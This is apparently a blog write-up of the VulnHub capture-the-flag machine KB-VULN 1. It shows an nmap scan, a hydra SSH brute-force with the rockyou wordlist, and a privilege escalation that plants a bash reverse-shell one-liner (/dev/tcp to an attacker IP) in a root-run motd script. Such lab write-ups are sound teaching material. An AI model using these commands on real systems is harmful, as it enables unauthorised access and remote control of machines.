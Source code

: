 ```yaml
---
title: "KB-VULN: 1 |  CTF Writeup"
description: "KB-VULN CTF Writeup vulnhub.com"
layout: post
---
```

{% highlight text %}
Machine Level : Easy
Description : ENUMERATION ENUMERATION and ENUMERATION! This VM is running on VirtualBox. And has 2 flags:user.txt and flag.txt.
{% endhighlight %}
You can find this VM [here](https://www.vulnhub.com/entry/kb-vuln-1,540/)

nmap service scan: 
{% highlight terminal %}
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
{% endhighlight %}

Checking the web page source code showed me this comment:
{% highlight html %} 
<!-- Username : sysadmin -->
{% endhighlight %}

Running the username and the rockyou wordlist through hydra to bruteforce SSH:

{% highlight bash %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN]
└─$ hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.106 -V

[22][ssh] host: 192.168.56.106   login: sysadmin   password: password1

{% endhighlight %}

Logging into SSH server and getting the first flag: 

{% highlight bash %}
sysadmin@kb-server:~$ cat user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
{% endhighlight %}

There is a clue as to the files we can write as the sysadmin user in the ftp directory
{% highlight bash %}
sysadmin@kb-server:~/ftp$ cat .bash_history 
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
{% endhighlight %}

We just need to add the following oneliner to the script and set up a netcat listener: 
{% highlight bash %}
bash -c 'exec bash -i &>/dev/tcp/192.168.56.101/6666 <&1'
{% endhighlight %}
ATTACKER MACHINE: 
{% highlight bash %}
nc -lp 6666
{% endhighlight %}

{% highlight bash %}
root@kb-server:/root# cat flag.txt
cat flag.txt
1eedddf9fff436e6648b5e51cb0d2ec7
{% endhighlight %}
